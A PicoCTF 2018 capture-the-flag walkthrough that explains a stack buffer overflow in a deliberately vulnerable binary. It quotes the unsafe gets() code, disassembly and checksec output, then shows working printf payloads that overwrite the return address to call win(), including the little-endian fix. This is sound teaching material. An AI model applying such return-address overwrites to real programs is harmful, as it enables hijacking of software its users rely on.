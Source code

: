 ```yaml
---
title:  PicoCTF 2018 - Buffer Overflow 1
description: The training-wheels come off, and you have to use the buffer-overflow vulnerability to execute a specific bit of code at an exact location in memory. The question is, can you get it to work?
hide_index: true
image:
  path: /img/reference/pico-ctf-2018-00000.png
  width: 1024
  height: 512
  thumb: /img/reference/pico-ctf-2018-00000.thumb.png
  alt: Linux Terminal
---
```


# PicoCTF 2018 - Buffer Overflow 1

> **Note**: This article is part of our [PicoCTF 2018 BinExp Guide]({% link _reference/Hacking-101/PicoCTF-2018-Binary-Exploits.md %}).

## Spot the Bug

Once again, finding the bug is easy, as it's almost identical to the [last challenge]({% link _reference/Hacking-101/PicoCTF-2018-Binary-Exploits/buffer-overflow-0.md %}):

```c
#define BUFSIZE 32

void vuln(){
  char buf[BUFSIZE];
  gets(buf);

  printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
}
```

The buffer once again lives on the stack and has a fixed size (32 bytes). There are no other variables on the stack. The `gets` function is used, which is highly **unsafe**, as it will copy characters from `stdin` until either a newline character is found or the *end-of-file* is reached, making it trivial to overflow the `buf` variable and overwrite anything following it in memory, including the stack frame's preserved `ebp` register and *return address*.

## Strategy

Now that we found the bug, we need a plan to use that bug in a way that will allow us to capture the flag. They've taken off the training wheels *slightly* here, as there is no segfault handler registered. However, there **is** a handy dandy function that will print out the flag if called:

```c
void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}
```

Since we no longer have a default-crash handler to fallback on, we will have to actually change the flow of execution so that the `win()` function gets called. Here, the `win()` function has been compiled into the program and exists within the `.text` segment of the binary at a fixed address (ASLR does not apply as the program is not compiled as a [Position-independent Executable](https://en.wikipedia.org/wiki/Position-independent_code) or *PIE*). **Note**: if you install [`pwntools`](https://github.com/Gallopsled/pwntools) you can run `checksec` from your shell to quickly check the security properties of binaries, including whether they are compiled as PIE. Use `readelf -s` or `objdump -t` or `nm` to display the address of all the exported symbols within the binary:

```
$ checksec ./vuln
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments

$ readelf -s ./vuln | grep win
    67: 080485cb   100 FUNC    GLOBAL DEFAULT   14 win
```
{:.contains-term}

In this case, the code for the function `win()` begins at the address `0x080485cb`. 

If you were paying attention during [buffer overflow 0]({% link _reference/Hacking-101/PicoCTF-2018-Binary-Exploits/buffer-overflow-0.md %}) you might have a good idea of what to do now, so go and attempt the problem located at `/problems/buffer-overflow-1_0_787812af44ed1f8151c893455eb1a613` on the shell server.

## Background Info

You should recall from [buffer overflow 0]({% link _reference/Hacking-101/PicoCTF-2018-Binary-Exploits/buffer-overflow-0.md %}) that the stack looks something like this after calling `vuln()`:

| lower addresses | &rArr; | &rArr; | higher addresses |
| --- | :---: | :---: | --- |
| `buf[32]` | &lt; padding &gt; | &lt;old ebp&gt; | &lt;*return address*&gt; |

In order to change the flow of execution, what we need to do is overwrite the *return address* so that when the `ret` instruction is called, the execution continues at the memory address *we want* (instead of whatever instructions followed the call to `vuln()`). We know there are 32 bytes allocated for the buffer, but we don't yet know for sure how many padding bytes there are.

To figure it out, we once again peak at the assembly code for `vuln()` using `objdump -M intel -S ./vuln`:

```nasm
push   ebp
mov    ebp,esp
sub    esp,0x28
sub    esp,0xc
lea    eax,[ebp-0x28]
push   eax
call   8048430 <gets@plt>
add    esp,0x10
call   80486c0 <get_return_address>
sub    esp,0x8
push   eax
push   0x80487d4
call   8048420 <printf@plt>
add    esp,0x10
nop
leave  
ret  
```

In this case, 0x28 (40) bytes are reserved on the stack, meaning there are an additional **8 bytes of padding**.

**NOTE**: *For the curious, this value of padding is likely chosen because the compiler is required to keep 16-byte alignment on the stack as part of the **ABI**, and reserving 40 bytes in addition to the 4 bytes for the preserved `ebp` register and the 4 bytes for the **return address** results in a total of exactly 48 bytes, which is a multiple of 16. You'll notice the call to `gets` first reserves 0x0c (12) bytes off the stack, before pushing 4 more (the value of `eax`), again resulting in a perfect 16 byte alignment.*

## Exploitation

We've calculated that if we start from the beginning of `buf[]`, then there are exactly **32** (`buf`) + **8** (*padding*) + **4** (*preserved `ebp`*) bytes before the *return address*. We've also determined that we should execute the `win()` function, which is at address `0x080485cb`.

In general, we don't care about the bytes that end up in the `buf[]` variable or the `padding`. We may care about the bytes that end up in the `ebp` register (the previous challenge proved that), but in this case we know that even if returning from `win()` results in a crash, it will have already printed out the flag because the `stdout` stream has been explicitly set to non-buffered (`_IONBF`).

So, when prompted, we should provide 44 bytes of *something* (I arbitrarily chose 0x55, aka 'U', because of the repeating cycle of `0`s and `1`s when represented in binary), followed by the address of `win`. Recall, `gets()` will only copy up to the first newline ('`\n`'), and it will always add a terminating null ('`\0`').

At this point you might be temped to form a string that looks like this:

```
"UUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUU\x08\x04\x85\xcb"
```

However, that won't work:

```
/problems/buffer-overflow-1_0_787812af44ed1f8151c893455eb1a613$ printf "UUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUU\x08\x04\x85\xcb" | ./vuln
Please enter your string:
Okay, time to return... Fingers Crossed... Jumping to 0xcb850408
Segmentation fault
```
{:.contains-term}

Why did it *segfault*? The hint is in the helpful printing of the return address. Instead of jumping to `0x080485cb`, the program is jumping to `0xcb850408`. The reason is that memory on many machines, including x86 and x86-64 is little-endian. That means that when storing values larger than 1 byte, the bytes are arranged so that the least-significant byte is stored first, followed by the next least-significant, and so on. The least-significant byte of `0x080485cb` is `0xcb`, and that byte should appear first, followed by `0x85`, `0x04`, and `0x08`. Let's try it:

```
/problems/buffer-overflow-1_0_787812af44ed1f8151c893455eb1a613$ printf "UUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUU\xcb\x85\x04\x08" | ./vuln
Please enter your string:
Okay, time to return... Fingers Crossed... Jumping to 0x80485cb
picoCTF{===REDACTED===}Segmentation fault (core dumped)
```
{:.contains-term}

Eh voilà! You've successfully exploited a buffer-overflow vulnerability. Good Job. Head back to our  [PicoCTF 2018 BinExp Guide]({% link _reference/Hacking-101/PicoCTF-2018-Binary-Exploits.md %}) to continue with the next challenge.